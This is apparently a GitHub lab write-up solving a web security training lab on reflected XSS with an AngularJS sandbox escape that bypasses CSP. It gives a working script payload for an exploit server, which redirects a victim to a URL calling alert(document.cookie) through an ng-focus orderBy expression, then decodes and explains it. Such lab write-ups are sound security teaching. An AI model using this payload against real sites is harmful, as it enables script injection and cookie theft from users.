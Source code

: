 # Lab: Reflected XSS with AngularJS sandbox escape and CSP

## Lab Description

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/5189f85b-e2b7-4d11-91fa-c54c5f0a0303)

## Solution

Go to the exploit server and in the body section enter -
`<script>
location='https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x';
</script>`

Then click on **store** and then **Deliver exploit to vitctm** to finish the lab.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/8f181830-03ea-4e0f-8b4c-75619deafca8)

- `%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x` decodes to -> `<input id="x" ng-focus="$event.composedPath() | orderBy:'(z=alert)(document.cookie)'">`

- <input id="x">: This creates an <input> element with the ID attribute set to "x".
- `ng-focus="$event.composedPath() | orderBy:'(z=alert)(document.cookie)'"`: This is an AngularJS expression attached to the ng-focus directive of the `<input>` element.

  - `$event.composedPath()` captures the event path when the `<input>` element receives focus.

  - `orderBy:'(z=alert)(document.cookie)'` attempts to use the orderBy AngularJS filter with a crafted sorting criterion `'z=alert)(document.cookie)'`. The intention is to execute JavaScript code (alert(document.cookie)) within the AngularJS context.
